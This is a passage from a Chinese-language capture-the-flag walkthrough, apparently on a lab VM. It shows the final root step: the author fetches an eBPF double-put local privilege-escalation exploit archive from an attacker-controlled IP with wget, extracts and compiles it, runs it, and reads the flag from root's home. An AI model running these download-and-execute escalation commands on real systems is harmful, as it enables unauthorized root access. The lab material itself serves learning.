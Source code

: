 ![image-20230806132745825](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806132745825.png)



浏览器进行访问`http://192.168.80.141:8888/`

![image-20230806133026241](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806133026241.png)

出现这个说明服务开启成功，exp地址是

`http://192.168.80.141:8888/39772/exploit.tar`



回到刚才的``python交互shell`

```shell
wget http://192.168.80.141:8888/39772/exploit.tar
```

![image-20230806132946215](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806133437137.png)

下载完后用tar命令解压该压缩包

```shell
tar -xvf exploit.tar
```

![image-20230806133712617](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806133712617.png)

```shell
cd ebpf_mapfd_doubleput_exploit
```

![image-20230806160847229](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806160847229.png)

执行

```shell
./compile.sh
./doubleput
```

![image-20230806135029094](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806135029094.png)

使用`whoami`查看当前用户

![image-20230806135110514](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806135110514.png)

切换到`root`的家目录

![image-20230806135159050](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806135159050.png)

查看`the-flag.txt`

![image-20230806135244319](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806135244319.png)
